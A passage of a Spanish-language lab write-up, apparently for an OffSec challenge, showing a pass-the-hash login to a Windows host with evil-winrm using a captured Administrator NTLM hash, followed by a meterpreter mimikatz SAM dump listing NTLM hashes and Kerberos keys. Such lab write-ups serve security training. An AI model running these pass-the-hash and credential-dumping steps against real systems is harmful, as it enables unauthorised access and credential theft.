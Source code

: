 - Ya obtivimos un hash NTLM del usuario administrador. 

```bash
┌──(root㉿kali)-[/home/kali/OffSec/Challenges/2_Relia]
└─# evil-winrm -i 192.168.180.249 -u 'Administrator' -H 387aef0561b65e4f3cae0960b0fba2d5 -P 5985
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```
- A partir de este punto podemos acceder a esta maquina con permisos administrativos elevados y utilizar el host como punto de pivote mas adelante.

Buscamos mas credenciales en el host:

```
meterpreter > kiwi_cmd "lsadump::sam"
Domain : LEGACY
SysKey : 64739ab3729cd3b69b8a2112d7f813bd
Local SID : S-1-5-21-464543310-226837244-3834982083

SAMKey : 182f3f06a90f8964d5f3e42a4471f991

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 387aef0561b65e4f3cae0960b0fba2d5

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 43c134075ee0781f000afa9852286526

* Primary:Kerberos-Newer-Keys *
    Default Salt : LEGACYAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8f63ebd63ab3648b2fd2b564171599b1ccef1dd2ae516747268e8e8c4b039b62
      aes128_hmac       (4096) : a8157f683f9b1ccf5eda82f45efb3645
      des_cbc_md5       (4096) : 297c2c64e0f7c1f1
    OldCredentials
      aes256_hmac       (4096) : 5d8412c2b5c287800912c25e1d01726d0a38dc92620817ac8b3a3695527b9176
      aes128_hmac       (4096) : d03fccb1f24da612e10c2dcc95ab1162
      des_cbc_md5       (4096) : 1004b6fe26da7a4a

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : LEGACYAdministrator
    Credentials
      des_cbc_md5       : 297c2c64e0f7c1f1
    OldCredentials
      des_cbc_md5       : 1004b6fe26da7a4a


RID  : 000001f5 (501)
User : Guest

```